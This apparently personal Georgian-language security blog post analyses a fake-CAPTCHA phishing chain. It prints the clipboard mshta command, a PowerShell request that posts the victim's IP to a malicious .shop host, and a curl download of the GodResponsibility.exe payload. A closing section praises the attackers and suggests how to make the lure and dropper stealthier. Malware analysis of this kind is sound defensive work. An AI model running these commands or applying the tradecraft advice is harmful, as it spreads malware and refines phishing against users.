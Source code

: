 ```yaml
---
title: "ფიშინგი რობოტების წინააღმდეგ!"
date: 2024-12-20 18:10:00 +0400
categories: [CyberSecurity,Hacking]
tags: [Malware]
---
```


## რა მოხდა?

ერთ-ერთ საიტზე შევედი და უცებ ასეთი რამ გამოჩნდა:

![1.png](https://44b4c0.github.io/assets/img/posts/22/1.png)

მეც ამოვხსენი ეს "თავსატეხი", მაგრამ შემდეგ ასეთი რამ გამოჩნდა:

![2.png](https://44b4c0.github.io/assets/img/posts/22/2.png)

ვის სჯერა, რომ `DNS` სერვერი არ მუშაობს და `run`-ში რაღაც უცნაური უნდა ჩაწეროს?

## ანალიზის დასაწყისი

ყველაზე უცნაური აქ ისაა, რომ არაფრის დაკოპირება მოუთხოვია. შესაძლოა როდესაც "თავსატეხის" ამოხსნას დავაჭირე სწორედ მაშინ მოხდა ტექსტის `clipboard`-ში გადატანა. როდესაც `paste` ვცადე `notepad`-ში, ასეთი რამ გამოჩნდა:

```powershell
mshta https://microsoft-dns-reload-6y.pages.dev # "Microsoft Windows: DNS service Reload and Restart UP
```

`mshta` არის `Microsoft HTML Application` ჰოსტი, რომელიც ამ უცნაური ლინკიდან წამოღებულ `.hta` ფაილს გაუშვებს. ახლა ისღა დამრჩენია ეს ფაილი ვიშოვო და შემდეგ ვირტუალურ მანქანაში გავაკეთო მისი ანალიზი.

![3.png](https://44b4c0.github.io/assets/img/posts/22/3.png)

აქ კარგად ჩანს თუ რის გაკეთებას ცდილობს `HTML`-ში ჩაშენებული `VBA` სკრიპტი. მოკლედ რომ ვთქვა, გაჩნდება `powershell` პროცესი, რომელიც `base64`-ში დაენკოდებული `URL`-ს გაუგზავნის `HTTP` მოთხოვნას.

![4.png](https://44b4c0.github.io/assets/img/posts/22/4.png)

აქ უკვე `.exe` ფაილი გამოჩნდა. რა თქმა უნდა, ამ ეტაპზე წინა `.exe` ფაილის ანალიზი არ დამისრულებია, მაგრამ ამ ბლოგში ვეცდები ეს ფაილი დავშალო და შევამოწმო რას აკეთებს უფრო კონკრეტულად.

## Powershell-ის ანალიზი

მოკლედ, რაღაც ლინკიდან მოდის `.exe` ფაილი, რომელიც ინახება `response`-ში. ამის შემდეგ სკრიპტი ამოწმებს არსებობს თუ არა `MemoryExec`, რაც ნიშნავს იმას, რომ სკრიპტი ამოწმებს შეუძლია თუ არა კომპიუტერს მთლიანი `binary` ინფორმაციის მეხსიერებაში გადატანა და იქიდან გაშვება, ანუ ფაილის მყარ დისკზე არ შექმნა. ასეთ ფაილებს `Lolbin`-ები ეწოდებათ, ანუ `Live Off the Land Binaries`.

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

აქ `JSON` მონაცემები იგზავნება `POST` მეთოდით და ეს ჰედერებიდანაც კარგად ჩანს:

```
Content-Type: application/json
```

`JSON` მონაცემები კი `hxxps://ifconfig.me/ip`-დან წამოვა. ეს საიტი შესული მოთხოვნის ანალიზს აკეთებს და უკან გარკვეულ ფორმატში აბრუნებს. ამ სკრიპტის ავტორი კი მას `JSON`-ად გადააქცევს `ConvertTo-Json`-ის გამოყენებით.

ეს ყველაზე საინტერესოა. დიდი ალბათობით ამ დომენის უკან მთავარი `C2` სერვერი დგას, რომელსაც შეგვიძლია, რომ ჩავარტყათ. ვეცდები სხვა ქსელიდან ვცადო ეს ყველაფერი.

```
hxxps://polovoiinspektor.shop/protect/GodResponsibility.exe
```

როგორც ჩანს ფაილის სახელია `GodResponsibility`. არ ვიცი ასეთი არაკრეატიული სახელი რატომ ჰქვია, მაგრამ ჩემთვის სულ ერთია, მთავარია ჰოსტი ნაპოვნია.

`Run()` ფუნქცია კი, რომელიც `HTTP` სერვისიდან მიღებულ `data stream`-ს მეხსიერებაში ტვირთავს და შემდეგ უშვებს, პროცესის ოფციებს ასწორებს/აკონფიგურირებს. მაგალითად:

```c#
process.StartInfo.CreateNoWindow = true;
```

ეს ნიშნავს, რომ პროცესის `startup info`-ში(ეს ის სტარტაპი არ არის) ჩაიწერება ოფცია, რომელიც ამ პროცესის შექმნისას არ გააჩენს ფანჯრებს. ანუ, თუ მაგალითად ეს აპლიკაცია `Console Application` არის, ეს ნიშნავს იმას, რომ მას აუცილებლად დასჭირდება `conhost.exe` და მარტივად რომ ვთქვა `cmd.exe`-ს ფანჯარა. ეს ოფცია ამ ფანჯრის შექმნის პრევენციას მოახდენს.

```powershell
curl https://polovoiinspektor.shop/protect/GodResponsibility.exe --output GodResponsibility.exe
```

ამ ბრძანებით ვიწერ მავნე კოდს და `GodResponsibility.exe` ფაილში ვინახავ, `Desktop`-ზე.

## GodResponsibility.exe

ფუნქციების შემოწმებისას აქაც ჩანს ბევრი ისეთი ფუნქცია, რომელიც წინა მავნე კოდის განხილვისას აღმოვაჩინე.

![5.png](https://44b4c0.github.io/assets/img/posts/22/5.png)

ზოგი ტექსტი წინა `malware`-შიც აღმოვაჩინე, ასე, რომ ძალიან მაინტერესებს რა მოხდება ამ პროგრამას თუ გავუშვებ. სანამ ამას გავაკეთებ ერთხელ გადავხედავ `r2.exe`-თი და მერე ჩავაგდებ `xdbg`-ში.

![6.png](https://44b4c0.github.io/assets/img/posts/22/6.png)

ეს და წინა მავნე კოდი, `NativeApp_G4QLIQRa.exe` ძალიან ემთხვევიან ერთმანეთს. განსხვავება აქ ისაა, რომ წინა ვირუსი 50 მეგაბაიტზე მეტი იყო ზომაში, ხოლო ეს მხოლოდ 1.18 მეგაბაიტია.

სხვათაშორის, ეს ვირუსი 2024 წლის 17 სექტემბერსაა ხელმოწერილი `Notepad++`-ის მიერ. ყოველშემთხვევაში ასე წერია დეტალებში.

![GodPriority.png](https://44b4c0.github.io/assets/img/posts/22/GodPriority.png)

ეს აღმოვაჩინე. `.exe`-ს `icon` ყოფილა. დიდად ვერ ვხვდები ეს რას შეიძლება ნიშნავდეს, მაგრამ საკმაოდ საინტერესოა, როდესაც მავნე კოდში ასეთ უცნაურ რამეს პოულობს ვინმე.

ახლა შევეცდები `Wireshark` ჩავწერო ვირტუალურ მანქანაზე და შემდეგ ქსელს გავუთიშავ მას. აი როდესაც ამას ვიზამ `Wireshark`-ს ჩავრთავ და ვირუსს გავუშვებ. ვნახავ რის გაგზავნას შეეცდება და სად, ან საერთოდ თუ შეეცდება რამის გაგზავნას სადმე.

#### ყველაფერი აირია

სამწუხაროდ ყველაფერი აირია. ვირტუალური მანქანა გაითიშა და ის პროგრესი რაც მქონდა სულ დაიკარგა. ამასთან, ვირუსმა თავი წაიშალა. ამ ვირტუალური სისტემის ქსელთან დაკავშირება არ მსურს, რადგან შესაძლოა ვირუსი ჩემს ქსელში გავრცელდეს, ასე, რომ ამ ეტაპზე მას ასე დავტოვებ.

## Attack Chain-ის შეფასება

#### Stage 0

საბოლოოდ, ვფიქრობ, ამ გუნდმა კარგად იმუშავა და ნამდვილად იმსახურებენ დაფასებას. სოციალური ინჟინერიის ხარისხის ძალიან მომეწონა, როდესაც `Google Capcha` თავიდან ააწყვეს და შემდეგ `Run`-ში `Clipboard`-დან ბრძანების ჩაწერა შემოგვთავაზეს. **ასეთი რაღაცების კრიტიკოსი უნდა გავხდე**.

#### Stage 1

კარგი იყო `hxxps://microsoft-dns-reload-6y.pages.dev` ლინკიც, რომელიც ყველანაირად ვალიდურად გამოიყურება. ერთადერთი, რაც ამ ყველაფერს საეჭვოს ხდის არის `6y` და, ვფიქრობ, ეს უნდა მოშორდეს დომენს. ყოველშემთხვევაში მე მაგ ნაწილს არ გამოვიყენებდი სამიზნის დაბნევის დროს.

`VBA` სკრიპტის `HTML`-ში ინტეგრაცია და `WScript.Shell`-ის გაჩენა `CreateObject`-ით, ეს სტანდარტული სვლაა და იმდენად ბევრი ჰაკერი აკეთებს უკვე ამას, რომ აღარ მაოცებს. **სამაგიეროდ** მომეწონა მეორე დომენის სახელი, რომელიც `.shop`-ით ბოლოვდება და ეს, ჩემი აზრით, უფრო ვალიდურ იერსახეს მისცემს ამ კონკრეტულ დომენს.

#### Stage 2-3

`Powershell`-ს რაც ეხება კარგია, რომ დეველოპერს არ ავიწყდება მეხსიერებაში პირდაპირი ჩატვირთვის ფუნქციონალის შემოწმება მანამ, სანამ ის ამას გააკეთებს. **მაგრამ** არ მესმის ეს:

```powershell
Invoke-RestMethod -Uri "https://saaadnesss.shop/connect" -Method Post -Body (@{ip = (Invoke-RestMethod -Uri "https://ifconfig.me/ip")} | ConvertTo-Json) -Headers @{ "Content-Type" = "application/json" } | Out-Null
```

საქმე ისაა, რომ ინფიცირებისას რაც შეიძლება ნაკლებად ხმაურიანი უნდა იყოს მავნე კოდი, იმპლანტი თუ დროპერი. აქედან გამომდინარე ისმის კითხვა: `რატომ გახდა საჭირო კიდევ ორი მოთხოვნის განხორციელება?`. აქ რაცაა მოცემული, მაგის გაკეთება `.exe` ფაილიდანაც შეიძლებოდა, მოგვიანებით.

როდესაც პირველად ჩაიტვირთა მავნე კოდი მეხსიერებაში, `Task Manager`-მა ის დაინახა როგორც `Autoit`, ასე, რომ მაგაშიც ერთ ქულას დავწერ.

მოკლედ, რომ შევაჯამო, საკმაოდ საინტერესო შეტევის მეთოდია და ნამდვილად იმსახურებს ეს მეთოდი განვითარებას.
